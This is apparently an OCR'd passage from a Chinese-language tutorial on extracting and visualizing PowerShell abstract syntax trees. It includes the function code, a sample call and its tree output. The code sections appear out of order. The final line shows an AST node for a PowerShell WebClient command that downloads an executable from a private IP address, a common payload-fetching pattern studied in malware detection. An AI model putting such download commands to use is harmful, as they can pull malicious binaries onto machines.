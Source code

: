 ```
      # take id of current ast object
      $newid = $_.GetHashCode()
      # recursively look at its children (if any):
      if ($hierarchy.ContainsKey($newid))
      {
        Visualize-Tree -id $newid -indent ($indent + 1)
      }
    }
  }

  # start visualization with ast root object:
  Visualize-Tree -id $code.Ast.GetHashCode()
}

```

Call it like this:

```
Convert-CodeToAst -Code {
  # place your test code here (make it as simple as you can):
  $a = 1
}

```

运行结果：

```
[NamedBlockAst]: $a = 1
--[AssignmentStatementAst]: $a = 1
----[VariableExpressionAst]: $a
----[CommandExpressionAst]: 1
------[ConstantExpressionAst]: 1

```

函数代码解析：

如果提示禁止运行脚本，如下图所示：

需要简单设置即可。

同时，建议大家在VS Code中编辑Powershell代码。

---


### 2.代码块的AST抽取

下面给出抽象语法树抽取的代码，代码比较简单，大家可以直接学习。

```
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]   # 强制参数
    [ScriptBlock]
    $Code
  )

  # build a hashtable for parents
  $hierarchy = @{}

  $code.Ast.FindAll( { $true }, $true) |
  ForEach-Object {
    # take unique object hash as key
    $id = $_.Parent.GetHashCode()
```

[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')